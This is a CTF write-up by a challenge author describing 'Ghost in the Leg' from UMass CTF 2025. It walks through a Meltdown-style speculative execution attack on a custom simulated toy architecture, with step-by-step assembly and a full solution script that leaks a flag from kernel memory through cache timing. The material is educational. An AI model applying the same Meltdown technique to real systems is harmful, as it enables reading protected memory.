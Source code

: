 ```yaml
---
title: "UMass CTF 2025 - Ghost in the Leg"
date: 2025-04-19T15:00:00-05:00
draft: false
toc: false
images:
tags:
  - writeups
  - hardware
  - pwn
  - author
---
```


This is a challenge I wrote for UMass CTF 2025 using a special version theLEG™ computer architecture.  I'll have a separate series of blog posts on the architecture itself and why it is interesting, but for this I want to go over the specifics of the challenge.

## The Challenge
Participants in the CTF were given the following prompt:

> TheLEG™ just got updated with a brand new UI and speculative execution extension! Surely no one can read data from kernel space...
>
> The flag is at address 0x800000
>
> Source for this challenge can be found at: http://bit.ly/43UdRzz
>
> It is highly recommended to try solutions locally before running them on remote, it will be easier to debug and MUCH faster.

They were also provided a remote server with a web interface that looks like this:

![Leg UI](./images/1-leg_ui.png)

## The LEG
The LEG is a very minimal ARM based architecture that was originally designed for the CS535 class at UMass Amherst.  It has a fixed length 32 bit instruction, and can only address on registers and immediate values.  

For this challenge, I wrote a LEG simulator in Python that has an out of order execution extension based on Tomasulo's Algorithm and a G-share branch predictor. It also supports hardware exception handling for certain limited exceptions.

## The Vulnerability
This version of the LEG can be attacked with a version of the Meltdown vulnerability that affects certain Intel processors.  A good place to begin learning about this vulnerability is [with the initial paper that reported it](https://meltdownattack.com/meltdown.pdf).  The paper is well constructed and explains the attack well, which is somewhat uncommon in academic attack papers.

## Running the Exploit
The exploit can be thought of in a series of steps:

### Step 1: Access kernel memory
We know the flag is at 0x800000, so the first step is to load the data from that address into a register.

```asm
mov r0, 0x8000
lsl r0, 0x8
ldr r1, r0
```

We now have the data from the kernel address in a reorder buffer entry that will write to `r1`.  If we run this as it is though, it will throw an exception and the data will never make into the physical register, so we'll never see it.

### Step 2: Store the data before the exception handler finishes
The next thing we have to do is leak the data.  The key insight is that the value from the kernel exists in the reorder buffer for around 50 clock cycles before it is wiped, and other instructions can access that data in the meantime.

An easy side channel can be established through cache timings.  First, we need to flush the cache so it is completely empty.  This means any cache access will take roughly 15 cycles.
```asm
flush
```

Next, take the value that was retrieved from the kernel.  We'll leak one byte at a time, so we'll shift and mask so we only have one byte from the word the kernel returned:
```asm
lsr r1, 24
and r1, 0xFF
```
Once we have the byte, we multiply it by the size of a cache line (64), then access the cache at the index of the kernel value.  This means there will only be one "hot" line in the cache - the line at the index of the kernel value.

```asm
lsl r1, 0x6
ldr r2, r1
```

### Step 3: Handle the exception
We now wait for the exception to throw and handle it without crashing.  This can be done through the LEG interface.  The exact address will change for each program, but the following is an example:
```asm
.handler DATA_ABORT
    b 0x20
```

### Step 4: Retrieve the value from the cache
To retrieve the value, we will loop through each line of the cache, and save the index that returns its data the fastest.  This will be the "hot" cache line, and will be at the index that was determined by the kernel byte!

```asm
mov r1, 0x1      ; current fastest
mov r4, 0xFFF    ; fastest time
mov r2, r1       ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40 
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c        ; timing not the fastest, skip store
mov r4, r7      ; timing fastest seen, store index
mov r1, r2

add r2, 0x1     
cmp r2, 0x100
ble 0x50        ; loop back to beginning if still bytes to check

; Store result
str r1, 0x100
```

The memory address at 0x100 will contain the first byte of the flag!

## Final solution
The following script and exception handler will dump the whole flag when run against the LEG.  It is the same as the principle outlined above, but has a few more bells and whistles with the assembly.

```asm
; Setup
mov r9, 0x30
mov r10, 0x0     ; iterations
mov r11, 0x100   ; place to store flag

; Access kernel addr
flush             ; clean cache
mov r0, 0x8000
lsl r0, 0x8
add r0, r10
ldr r1, r0

; Access cache at kernel addr
mov r3, r10
mod r3, 0x4
mul r3, 0x8
mov r4, 0x18
sub r4, r3
lsr r1, r4
and r1, 0xFF
lsl r1, 0x6
ldr r2, r1

; Check to see which line is the fastest
; Setup
mov r1, 0x1     ; current fastest
mov r4, 0xFFF   ; fastest time
mov r2, r1      ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40    ; cache line length
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c
mov r4, r7
mov r1, r2

add r2, 0x1
cmp r2, 0x100
ble 0x50

; Store result
str r1, r11
add r11, 0x4
add r10, 0x1

; check to see if we should finish
cmp r9, r10
bge 0x0c
halt
```

```asm
.handler DATA_ABORT
    b 0x20
```

## Final Thoughts
I enjoyed making this challenge, and felt like I learned a lot while doing it.  Hopefully if you played it you enjoyed it too.